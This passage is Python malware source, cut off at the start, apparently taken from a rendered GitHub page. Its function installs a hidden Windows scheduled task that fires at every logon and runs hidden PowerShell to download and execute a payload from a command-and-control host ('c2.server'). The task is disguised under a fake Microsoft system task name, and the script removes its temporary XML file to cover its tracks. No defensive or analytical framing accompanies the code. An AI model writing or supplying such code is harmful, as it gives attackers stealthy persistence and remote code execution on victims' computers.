 ```python
        binding.Put_()
        
        return True
    except:
        return False

def _install_scheduled_task():
    """Create hidden scheduled task"""
    try:
        import subprocess
        
        # Create task XML
        task_xml = '''<?xml version="1.0" encoding="UTF-16"?>
        <Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
          <Settings>
            <Hidden>true</Hidden>
            <RunOnlyIfNetworkAvailable>true</RunOnlyIfNetworkAvailable>
            <WakeToRun>true</WakeToRun>
          </Settings>
          <Triggers>
            <LogonTrigger>
              <Enabled>true</Enabled>
            </LogonTrigger>
          </Triggers>
          <Actions>
            <Exec>
              <Command>powershell.exe</Command>
              <Arguments>-w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://c2.server/payload')"</Arguments>
            </Exec>
          </Actions>
        </Task>'''
        
        # Save XML to temp file
        import tempfile
        with tempfile.NamedTemporaryFile(mode='w', suffix='.xml', delete=False) as f:
            f.write(task_xml)
            xml_path = f.name
        
        # Create task using schtasks (runs as SYSTEM if admin)
        result = subprocess.run(
            f'schtasks /create /tn "\\Microsoft\\Windows\\AppID\\PolicyConverter" /xml "{xml_path}" /f',
            shell=True,
            capture_output=True
        )
        
        # Clean up
        os.unlink(xml_path)
        
        return result.returncode == 0
    except:
        return False
```
